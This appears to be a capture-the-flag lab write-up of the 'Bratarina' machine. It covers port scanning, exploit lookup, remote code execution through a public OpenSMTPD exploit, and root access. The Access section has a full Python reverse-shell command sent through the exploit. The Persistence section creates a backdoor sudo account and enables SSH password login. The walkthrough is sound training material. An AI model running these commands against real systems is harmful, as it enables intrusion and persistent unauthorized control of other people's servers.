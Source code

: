 # Bratarina

### Contents
- [Set-up](#set-up)
- [Discovery](#discovery)
- [Foothold](#foothold)
- [Access](#access)
- [Persistence (Bonus)](#persistence-bonus)

## Set-up

1) Ran a `sudo apt-get update`

2) Added target `192.168.59.71` as `target` to `/etc/hosts`

## Discovery

3) Port scanned the target with `nmap -v -T4 -p- target`, got results:

```
PORT    STATE  SERVICE
22/tcp  open   ssh
25/tcp  open   smtp
53/tcp  closed domain
80/tcp  open   http
445/tcp open   microsoft-ds
```

4) Service fingerprinting on the 4 open ports (with `nmap -v -T4 -p 22,25,80,445 -A target`)

We find the additional info: 

<details>

<summary>`nmap` output</summary>

```
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:dd:2c:ea:2f:85:c5:89:bc:fc:e9:a3:38:f0:d7:50 (RSA)
|   256 e3:b7:65:c2:a7:8e:45:29:bb:62:ec:30:1a:eb:ed:6d (ECDSA)
|_  256 d5:5b:79:5b:ce:48:d8:57:46:db:59:4f:cd:45:5d:ef (ED25519)
25/tcp  open  smtp        OpenSMTPD
| smtp-commands: bratarina Hello target [192.168.49.59], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
80/tcp  open  http        nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: bratarina
|   NetBIOS computer name: BRATARINA\x00
|   Domain name: \x00
|   FQDN: bratarina
|_  System time: 2024-02-26T11:49:15-05:00
|_clock-skew: mean: 1h40m00s, deviation: 2h53m14s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-02-26T16:49:12
|_  start_date: N/A
```

</details>

5) Checking the webserver on Firefox we see that the root path `/` gives us a 403.

At this point I'm thinking to try:

- Enumerate the Nginx webserver on 80/tcp with `gobuster`/`dirbuster`
- Look-up exploits (with `searchsploit`) for Nginx 1.14.0
- Look-up exploits (with `searchsploit`) with OpenSMTPD, we don't know what version the server is, but judging by the version of smtp-commands supported (2.0.0) that might be the version of the OpenSMTPD server too(?)
- Dig deeper into the SMB server, seems to have poor message-signing settings, we can get into this as a last resort

6) Enumeraing the webserver with `gobuster`

```
gobuster dir -u http://target/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

<details>

<summary>`gobuster` output</summary>

```
??$ gobugobuster dir -u http://target/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/static               (Status: 301) [Size: 194] [--> http://target/static/]
Progress: 220560 / 220561 (100.00%)
===============================================================                                           
Finished                                                                                                  
=============================================================== 
```

</details>

Gobuster found a path `/static` but that also gives me a 403 and nothing to work with, seems like a dead end. Let's move on to the next potential vector.

7) Searching for Nginx 1.14.0 exploits with `searchsploit`:

<details>

<summary>`searchsploit` output</summary>

```
??$ searchsploit nginx 
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Nginx (Debian Based Distros + Gentoo) - 'logrotate' Local Privilege Escalation    | linux/local/40768.sh
Nginx 0.6.36 - Directory Traversal                                                | multiple/remote/12804.txt
Nginx 0.6.38 - Heap Corruption                                                    | linux/local/14830.py
Nginx 0.6.x - Arbitrary Code Execution NullByte Injection                         | multiple/webapps/24967.txt
Nginx 0.7.0 < 0.7.61 / 0.6.0 < 0.6.38 / 0.5.0 < 0.5.37 / 0.4.0 < 0.4.14 - Denial  | linux/dos/9901.txt
Nginx 0.7.61 - WebDAV Directory Traversal                                         | multiple/remote/9829.txt
Nginx 0.7.64 - Terminal Escape Sequence in Logs Command Injection                 | multiple/remote/33490.txt
Nginx 0.7.65/0.8.39 (dev) - Source Disclosure / Download                          | windows/remote/13822.txt
Nginx 0.8.36 - Source Disclosure / Denial of Service                              | windows/remote/13818.txt
Nginx 1.1.17 - URI Processing SecURIty Bypass                                     | multiple/remote/38846.txt
Nginx 1.20.0 - Denial of Service (DOS)                                            | multiple/remote/50973.py
Nginx 1.3.9 < 1.4.0 - Chuncked Encoding Stack Buffer Overflow (Metasploit)        | linux/remote/25775.rb
Nginx 1.3.9 < 1.4.0 - Denial of Service (PoC)                                     | linux/dos/25499.py
Nginx 1.3.9/1.4.0 (x86) - Brute Force                                             | linux_x86/remote/26737.pl
Nginx 1.4.0 (Generic Linux x64) - Remote Overflow                                 | linux_x86-64/remote/32277.txt
PHP-FPM + Nginx - Remote Code Execution                                           | php/webapps/47553.md
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

</details>


All exploits are for versions lower than the webserver's (< 1.14.0) except for a DoS in 1.20.0 -- but that won't get us access. Let's move on to the next thing to try.

8) Searching for OpenSMTPD exploits with `searchsploit`

<details>

<summary>`searchsploit` output</summary>

```
??$ searchsploit opensmtpd
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
OpenSMTPD - MAIL FROM Remote Code Execution (Metasploit)                          | linux/remote/48038.rb
OpenSMTPD - OOB Read Local Privilege Escalation (Metasploit)                      | linux/local/48185.rb
OpenSMTPD 6.4.0 < 6.6.1 - Local Privilege Escalation + Remote Code Execution      | openbsd/remote/48051.pl
OpenSMTPD 6.6.1 - Remote Code Execution                                           | linux/remote/47984.py
OpenSMTPD 6.6.3 - Arbitrary File Read                                             | linux/remote/48139.c
OpenSMTPD < 6.6.3p1 - Local Privilege Escalation + Remote Code Execution          | openbsd/remote/48140.c
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

</details>

Here's some promising results! There are 3 RCE exploits we could look at. Two of them are for openbsd, and it looks like the machine is running Ubuntu so we'll set those two aside for now.

We'll focus our attention on `OpenSMTPD 6.6.1 - Remote Code Execution | linux/remote/47984.py` for now and move on to others if that fails. First thoughts are it likely won't work since the version of OpenSMTPD affected is 6.6.1, unclear if lower versions are also affected. We'll see...

## Foothold

9) Inspecting the exploit [source code](https://www.exploit-db.com/exploits/47984) header we find that it is advertised to work for `OpenSMTPD < 6.6.2`, so we might be in luck!

We run the exploit with no args to get usage:

```
--$ python /usr/share/exploitdb/exploits/linux/remote/47984.py
Usage /usr/share/exploitdb/exploits/linux/remote/47984.py <target ip> <target port> <command>
E.g. /usr/share/exploitdb/exploits/linux/remote/47984.py 127.0.0.1 25 'touch /tmp/x'
```

Looks like we can just give it the target IP, port, and an arbitrary command.

10) We'll try to get the remote machine (`192.168.59.71 - Bratarina`) to send us (`192.168.49.59 - Kali`) some data and set-up a local listener (`nc -lvnp 80` - using port 80 in case there are firewalls in place) to catch it:

![](./assets/foothold.png)

Success! We can execute arbitrary code on the remote machine and get a response in our machine.

## Access

Now its time to set up a reverse shell.

11) Sending a command that runs in-line python to set up a shell that calls out to us should work:

```
python /usr/share/exploitdb/exploits/linux/remote/47984.py 192.168.59.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.59\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
```

A copy of this payload can be found in the [python payloads reference in this repo](./../../../../../payloads/reverse-shells/python/README.md).

![](./assets/i-am-root.png)

...and indeed, that not only gets us a shell in the box, it gets us a shell as `root`! There's our `proof.txt` file too, We win!

## Persistence (Bonus)

12) We'll make sure we can come back to the target via SSH by adding a new Linux user.

We add a new user `hackerman` with `sudo useradd -m hackerman`:

```
root@bratarina:~# sudo useradd -m hackerman
sudo useradd -m hackerman
```

We set a password `hackerman` for the new user `hackerman` with `echo hackerman:hackerman | sudo chpasswd`

```
root@bratarina:~# echo hackerman:hackerman | sudo chpasswd
echo hackerman:hackerman | sudo chpasswd
```

We add the user `hackerman` to the sudoers group with `sudo usermod -aG sudo hacker
`:

```
root@bratarina:~# sudo usermod -aG sudo hackerman
sudo usermod -aG sudo hackerman
```

We make sure that the SSH server allows password authentication by checking the `/etc/ssh/sshd_config`... in this case it did not:

```
root@bratarina:~# cat /etc/ssh/sshd_config | grep PasswordAuthentication
cat /etc/ssh/sshd_config | grep PasswordAuthentication
#PasswordAuthentication yes
# PasswordAuthentication.  Depending on your PAM configuration,
# PAM authentication, then enable this but set PasswordAuthentication
```


So we enable that by appending `PasswordAuthentication yes` to the config:

```
root@bratarina:~# echo PasswordAuthentication yes >> /etc/ssh/sshd_config
echo PasswordAuthentication yes >> /etc/ssh/sshd_config
```

We then restart the ssh server with `sudo systemctl restart ssh`:

```
root@bratarina:~# sudo systemctl restart ssh
sudo systemctl restart ssh
```

We check that the ssh server restarted succesfully (note the "active ... 8s ago"):

```
root@bratarina:~# sudo systemctl status ssh
sudo systemctl status ssh
WARNING: terminal is not fully functional
-  (press RETURN)
? ssh.service - OpenBSD Secure Shell server
   Loaded: loaded (/lib/systemd/system/ssh.service; enabled; vendor preset: enab
   Active: active (running) since Mon 2024-02-26 12:44:57 EST; 8s ago
  Process: 2097 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
 Main PID: 2109 (sshd)
    Tasks: 1 (limit: 2318)
   CGroup: /system.slice/ssh.service
           ??2109 /usr/sbin/sshd -D

Feb 26 12:44:56 bratarina systemd[1]: Stopped OpenBSD Secure Shell server.
Feb 26 12:44:56 bratarina systemd[1]: Starting OpenBSD Secure Shell server...
Feb 26 12:44:57 bratarina sshd[2109]: Server listening on 0.0.0.0 port 22.
Feb 26 12:44:57 bratarina systemd[1]: Started OpenBSD Secure Shell server.
lines 1-13/13 (END)^C
```

12) Now we can test our persistence mechanism by SSH-ing as user `hackerman` from our Kali machine:

![](./assets/persistence.png)

Success!


